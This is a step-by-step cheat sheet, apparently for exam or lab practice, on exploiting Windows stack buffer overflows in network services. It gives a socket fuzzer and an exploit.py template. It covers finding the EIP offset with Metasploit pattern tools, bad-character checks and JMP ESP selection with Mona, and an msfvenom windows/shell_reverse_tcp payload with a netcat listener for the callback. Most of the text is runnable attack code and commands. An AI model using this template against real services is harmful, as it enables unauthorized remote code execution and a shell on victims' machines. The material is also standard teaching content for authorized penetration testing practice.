

# Stack Buffer Overflow enumeration and exploitation
* [A piece of theory](#a-piece-of-theory)
    * [Definitions](#definitions)
    * [Graphical presentation](#graphical-presentation)
* [Tools](#tools)
    * [Immunity Debugger](#immunity-debugger)
    * [Mona](#mona)
* [Enumeration](#enumeration)
    * [Fuzzing](#fuzzing)
    * [Finding the EIP offset](#finding-the-eip-offset)
    * [Finding bad chars](#finding-bad-chars)
    * [Finding a jump point](#finding-a-jump-point)
* [Exploitation](#exploitation)
    * [Generating a payload](#generating-a-payload)
    * [Adding NOPs](#adding-nops)
    * [Getting the reverse shell](#getting-the-reverse-shell)

## A piece of theory
### Definitions
- **Stack frame** - function-specific section of the stack. 
- **ESP**  _(Extended Stack Pointer)_ points to the current top of the stack. It's changed every time something is pushed/popped to the stack.
- **EBP** _(Extended Base Pointer)_ points to the previous frame's base pointer.
- **EIP** _(Extended Instruction Pointer)_ points to the next executing command.
- **JMP ESP** - instruction to jump to the current top of the stack _(encoded as `\xFF\xE4`)_.
- **NOP** _(no operation)_ - instruction to do nothing and jump to the next instruction in the flow _(Intel x86 NOP opcode is `\x90`)_.

### Graphical presentation


## Tools
### Immunity Debugger
- Download and install: https://debugger.immunityinc.com/ID_register.py
- Always run it **as Administrator**.
- Use `File -> Attach` for already running apps and services or use `File -> Open` to run executable _(some services should be restarted using `sc stop/start <service_name>`)_.
- Unpause application.
- Use the Windows menu to jump between mona results, log data, and CPU.

### Mona
- Download it: https://raw.githubusercontent.com/corelan/mona/master/mona.py
- Copy it to the PyCommands folder _(default path is `C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`)_.
- Set working directory for Mona in Immunity Debugger:
```bash
!mona config -set workingfolder c:\mona\buffer_overflow
```

## Enumeration
### Fuzzing
- Create `fuzzer.py`:
```python
import socket, time, sys

ip = "<ip>"
port = <port>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("<command> " + string + "\r\n") # Add space after the command
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
- Run using `python` or `python2`.

### Finding the EIP offset
- Create the `exploit.py` file:
```python
import socket

ip = "<ip>"
port = <port>

prefix = "<command> " # Add space after the command
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
- Set the payload value:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length> # Value of fuzzing + couple hundred extra bytes.
```
- Run using `python` or `python2`.
- Get EIP offset by running `pattern_offset.rb`:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <eip_register>
```
- Set EIP `offset` in the `exploit.py`, empty the `payload`, and set `retn` value to `BBBB`.
- Run again and check the EIP register in the Registers window. It should be `42424242` now.

### Finding bad chars
-  Generate a bytearray using mona, and exclude the null byte _(`\x00`)_:
```bash
!mona bytearray -b "\x00"
```
- Copy chars to the `payload` of the `exploit.py` and run it again:
```python
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
- Compare chars using mona:
```bash
!mona compare -f C:\mona\buffer_overflow\bytearray.bin -a <esp_address>
```
- Note all bad chars except for the `00`.
- Generate bytearray again excluding bad chars _(notice, often the byte after the bad char gets corrupted, so it's better to include only the first one of the sequence)_:
```bash
!mona bytearray -b "\x00<other_bad_chars_here>"
```
- Remove bad chars from the `payload` of the `exploit.py` and run it again.
- Compare chars again.
- Continue this process till there are no bad chars.

### Finding a jump point
- Find all `jmp esp` using mona:
```bash
!mona jmp -r esp -cpb "\x00<other_bad_chars_here>"
```
- Take any of addresses that have no protection and put it in the `retn` variable of the `exploit.py`, but backwards _(for example: `625011AF -> \xaf\x11\x50\x62`)_.

## Exploitation
### Generating a payload
- Generate a payload including all bad chars:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread -b "\x00<other_bad_chars>" -f py # sometimes it's better to use C as the filetype
```
- Copy `buf` variable to the `exploit.py` file and set `payload` equal to it.

### Adding NOPs
- Since pointers may change a bit it's better to add NOPs to "slide" to the right position _(add this to `exploit.py`)_:
```python
padding = "\x90" * 16 # May be more than 16
```

### Getting the reverse shell
- Just listen to the reverse shell and run `exploit.py`:
```bash
rlwrap nc -lvnp 443
```
